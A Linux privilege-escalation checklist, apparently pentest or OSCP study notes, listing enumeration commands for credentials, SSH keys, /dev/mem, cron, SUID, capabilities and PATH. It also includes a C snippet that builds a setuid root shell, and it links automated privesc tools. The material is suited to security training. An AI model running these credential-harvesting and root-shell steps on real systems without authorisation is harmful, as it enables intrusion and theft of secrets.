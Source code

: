# Privilege Escalation Methodology👽
##  Few words before going on
"**Slow is smooth, and smooth is fast**"
Be methodical in what you do or you will get lost. 

Now we are inside the system as a low-privileged user, to obtain an elevated privileged user account we have to find a vector we can use to climb the privileges ladder.

#### Mind map & checklist
We think that the mind map provived by Conda (please, go support him on [his](https://www.youtube.com/channel/UCzK5oAENyQJcnH5SvEquo8A) YouTube channel) is very useful and straightforward. So, we've decided to translate it into this checklist. While the mind map gives you an immediate overview of what you should do, the checklist gives you the possibility to visualize what you already have done.
You can find the mind map created with Obsidian by us here  ![[linux_privesc_mindmap.png]] and the Conda's original one (That is better in term of design) [here](https://github.com/C0nd4/OSCP-Priv-Esc). Go check his playlist on YouTube!, you can find the link under the PrivEsc section inside README.MD ([[README#PrivEsc]])

_**Be aware**: our translation does not completely reflect the Conda's mind map as we added/modified some parts._

## General thoughts to bear in mind
If you are still trying to gain an initial foothold but you can access local files, try to look for firewall's rules. So you won't become mad to figure it out by "brute forcing" the ports for a reverse shell 🙃
## Linux
### Credential Access
- [ ] Try known passwords
- [ ] Search creds from config files (Try different word other the PASSWORD, e.g: pass, passwd, pwd, user, usr, username, secret, cred, credential, auth):
> grep \--color\=auto \-rnw '/' \-ie "PASSWORD" \--color\=always 2> /dev/null
> find . \-type f \-exec grep \-i \-I "PASSWORD" {} /dev/null
> locate password | more
- [ ] Search creds from local DBs
- [ ] Search creds from bash history:
> history
> cat ~/.bash_history
- [ ] Search creds from memory:
> strings /dev/mem \-n10 | grep \-i PASS
- [ ] SSH keys:
> cat ~/.ssh/id_rsa
> ls ~/.ssh/\*
> find / -name authorized_keys 2> /dev/null
> find / -name id_rsa 2> /dev/null
- [ ] Sudo privileges:
> sudo -l
- [ ] Group:
> id
> groups

### Exploit
- [ ] Services running on localhost are vulnerable?
> ps aux
> ps aux | grep root
- [ ] Kernel version,  is it vulnerable?
> uname -a
> (cat /proc/version || uname -a ) 2>/dev/null
> lsb_release -a 2>/dev/null
- [ ] Binary file versions, vulnerable?
> sudo -V

### Misconfiguration
- [ ] Cron job -> check for write permissions on the following files:
> /etc/init.d
> /etc/cron\*
> /etc/crontab
> /etc/cron.allow
> /etc/cron.d 
> /etc/cron.deny
> /etc/cron.daily
> /etc/cron.hourly
> /etc/cron.monthly
> /etc/cron.weekly
> /etc/sudoers
> /etc/exports
> /etc/anacrontab
> /var/spool/cron
> /var/spool/cron/crontabs/root
> crontab \-l
> ls \-alh /var/spool/cron;
> ls \-al /etc/ | grep cron
> ls \-al /etc/cron\*
> cat /etc/cron\*
> cat /etc/at.allow
> cat /etc/at.deny
> cat /etc/cron.allow
> cat /etc/cron.deny\*
- [ ] Writeable cron job dependecy (File, Python library, etc)
- [ ] Find SUID:
> find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \\;
> find / -uid 0 -perm -4000 -type f 2>/dev/null
- [ ] Check SUID on [GTFOBins](https://gtfobins.github.io/)
- [ ] Create SUID:
```bash
print 'int main(void){\\nsetresuid(0, 0, 0);\\nsystem("/bin/sh");\\n}' \> /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```
- [ ] SGID:
> find / -perm -g=s -type f 2>/dev/null
> find / -perm +2000 -user root -type f -print
- [ ] Interesting capabilities on binary
- [ ] Any accessible sensitive file?
	- [ ] /etc/passwd
	- [ ] /etc/shadow
	- [ ] /etc/sudoers
	- [ ] Configuration files
	- [ ] /root/.ssh/id_rsa
	- [ ] entire root folder
	- [ ] Check env info
	 > (env || set) 2>/dev/null
	 > echo $PATH
- [ ] Writeable PATH
	- [ ] Root $PATH writeable
	- [ ] Directory in PATH writeable
- [ ] LD_PRELOAD set in /etc/sudoers
- [ ] Nothing yet? Google-Fu the web to look for other checklists
### Automation
If you are running out of time, automation could save you, but bear in mind that it's not stealthy at all (not this time).
This is a non comprehensive list of linux privesc automated script, to gain a better result try run different scripts on the same target:
- [ ] [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) (Linux local privilege Escalation Awesome Script)
- [ ] [LinEnum](https://github.com/rebootuser/LinEnum)
- [ ] [LES2](https://github.com/jondonas/linux-exploit-suggester-2) (Linux Exploit Suggester 2)
- [ ] [LinuxPrivChecker](https://github.com/sleventyeleven/linuxprivchecker)
- [ ] [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)	
## Windows
### Credential Access
### Exploit
### Misconfiguration